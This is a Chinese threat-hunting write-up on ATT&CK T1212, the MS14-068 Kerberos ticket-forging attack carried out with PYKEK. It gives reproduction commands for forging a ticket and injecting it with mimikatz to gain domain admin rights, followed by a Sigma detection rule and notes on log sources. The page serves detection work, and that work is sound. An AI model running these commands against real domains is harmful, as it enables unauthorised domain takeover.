 # T1212-windows-MS14-068-PYKEK

## 来自ATT&CK的描述

攻击者可能会利用软件漏洞来尝试收集凭据。当攻击者利用程序，服务或操作系统软件或内核本身内的编程错误来执行攻击者控制的代码时，就会利用软件漏洞。凭据和身份验证机制可能会被攻击者利用，以此作为获取有用凭据的途径或规避获取系统访问权限的过程。其中一个示例是MS14-068，它针对Kerberos，可用于使用域用户权限伪造Kerberos票证.对凭据访问的利用还可能导致特权升级，具体取决于目标过程或获取的凭据。

## 测试案例

可参考：[内网渗透之PTH&PTT&PTK](https://www.bbsmax.com/A/A7zgkjRPz4/)

## 检测日志

windows 安全日志（AD域控日志）

## 测试复现

测试步骤

域控主机（Windows server 2008）
域内主机（Windows 7 SP1）

```cmd
whoami /user #域内主机查找当前用户SID
dir \\DC\C$  #查看访问DC的权限
ms14-.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码 #域机器是可以和域控制器互通则会创建.ccache文件
```

票据注入

```cmd
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

使用mimikatz将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

## 测试留痕

测试留痕文件：[MS14-068-PYKEK-windows.log](https://github.com/12306Bro/Threathunting-book/tree/master/Eventdata/MS14-068/PYKEK)

## 检测规则/思路

### sigma规则

```yml
title: MS14-068-PYKEK
description: windows server 2008 / windows 7
references: https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/golden_ticket.md
tags: T1212
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: Security
detection:
    selection1:
        EventID: 4624 #账户登录
        Account Domain: '*.*' #新登录>账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
        Account Name: '*' #新登录>账户名(不同于安全标识的帐户，此条件实现起来较为复杂)
    selection2:
        EventID: 4672 #管理员登录
        Account Domain: '*.*' #账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
    selection3:
        EventID: 4768 #Kerberos TGS请求
        Supplied Realm Name: '*.*' #已提供的领域名称(正常情况下，已提供的领域名称应为ABC，当存在PYKEK攻击时，已提供的领域名称为ABC.COM)
    timeframe: last 5s
    condition: all of them
level: medium
```

### 建议

本规则未经过实际环境检验，谨慎使用

## 参考推荐

MITRE-ATT&CK-T1212

<https://attack.mitre.org/techniques/T1212/>

内网渗透之PTH&PTT&PTK

<https://www.bbsmax.com/A/A7zgkjRPz4/>

